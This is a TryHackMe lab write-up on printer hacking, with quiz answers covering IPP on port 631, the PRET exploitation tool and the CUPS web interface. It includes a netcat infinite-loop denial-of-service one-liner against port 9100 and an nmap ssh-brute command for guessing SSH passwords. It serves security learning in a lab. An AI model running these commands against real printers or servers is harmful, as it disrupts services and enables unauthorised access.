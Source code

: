 # Printer Hacking 101

**Date:** 13, December, 2020

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/printerhacking101) to go to the TryHackMe room.

## Learning Objectives
- CUPS Server (Common UNIX Printing System)
- IPP (Internet Printing Protocol)
- [PRET - Printer Exploitation](https://github.com/RUB-NDS/PRET)
- [Printer Security Testing Cheat Sheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet)

### Targeting and Exploiting
- Locating Printers
    - `python pret.py`
    - `nmap -p 631 <IP_RANGE>`
- Exploiting
    - Three options in PRET:
        - PS (PostScript)
        - PJL (Printer Job Language)
        - PCL (Printer Command Language)
    - Try out all the three languages, to check if the language will be understood by the printer
        ```bash
        python pret.py laserjet.lan ps
        python pret.py {IP} pjl
        python pret.py /dev/usb/lp0 pcl    
        ```
    - Once you get a shell-like output, type `help` to see the different commands available.
    

## Solutions
### What port does IPP run on?
- **Answer:** 631
- **Impact** 
    - An open IPP port can expose a lot of sensitive information such as *printer name, location, model, firmware version, or even printer wifi SSID.*

---

### How would a simple printer TCP DoS attack look as a one-line command?
- **Answer:** `while true; do nc printer 9100; done`
- **Explanation:** 
    - Replace `printer` with `<PRINTER_IP>`
    - Since it is an infinite loop, the printer will remain busy.

---

### Review the cheat sheet provided in the task reading above. What attack are printers often vulnerable to which involves sending more and more information until a pre-allocated buffer size is surpassed?
- **Answer:** Buffer Overflow

---

### Brute forcing SSH password
- [Null Byte Article](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)
- Use any of the following
    1. Metasploit
    2. Hydra
    3. Nmap

- Using nmap:
    - `nmap <MACHINE_IP> -p 22 --script ssh-brute --script-arg userdb=user.txt`
    - Since we know the username, `user.txt` must contain only `printer`

---

### Connect to the printer per the instructions above. Where's the Fox_Printer located?
- **Answer:** Skidy's basement
- **Steps to Reproduce:** Visit `http://<MACHINE_IP>:631/printers/`

![Image](Images/PrinterHacking101-1.png) 

---

### What is the size of a test sheet?
- **Answer:** 1k
- **Steps to Reproduce:**
    - Visit `http://<MACHINE_IP>:631/printers/Fox_Printer`
    - Select `Print Test Page` option from the Drop-down box.
    - The jobs will be listed at the bottom of the page.
    - Check the `size` column in that table.

![Image](Images/PrinterHacking101-2.png)     

---